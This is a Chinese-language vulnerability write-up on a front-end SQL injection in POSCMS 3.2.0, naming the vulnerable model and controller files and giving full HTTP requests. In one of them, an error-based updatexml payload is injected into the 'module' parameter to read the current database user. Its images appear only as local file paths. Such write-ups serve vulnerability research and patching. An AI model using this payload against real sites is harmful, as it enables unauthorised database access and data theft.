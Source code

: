 POSCMS 3.2.0 前台sql注入漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

POSCMS 3.2.0

三、复现过程
------------

![1.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0前台sql注入漏洞/media/rId24.png)

查看源码（`\diy\dayrui\models\Attachment_model.php`）可以发现注入点：

![2.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0前台sql注入漏洞/media/rId25.png)

该函数的调用点位于（`\diy\module\member\controllers\Account.php`）：

![3.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0前台sql注入漏洞/media/rId26.png)

对应的功能实际是前台用户中心---\>基本管理---\>附件管理的搜索功能，随便选择某个类别搜索后会看到这条请求：

    GET /index.php?s=member&c=account&m=attachment&module=photo&ext= HTTP/1.1
    Host: www.0-sec.org

向`module`参数注入Payload果然出现了报错：

![4.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0前台sql注入漏洞/media/rId27.png)

但不知道为什么博客里的Payload这里复现失败了，不过已经知道是报错注入，我用了经典的Payload------`" or updatexml(1,concat(1,0x7e,user()),1);#`拼接入参数中，得到了数据库当前用户：

    GET /index.php?s=member&c=account&m=attachment&module=photo%22%20or%20updatexml(1,concat(1,0x7e,user()),1);%23&ext= HTTP/1.1
    Host: www.0-sec.org

![5.png](/Users/aresx/Documents/VulWiki/.resource/POSCMS3.2.0前台sql注入漏洞/media/rId28.png)

参考链接
--------

> https://xz.aliyun.com/t/4858\#toc-5
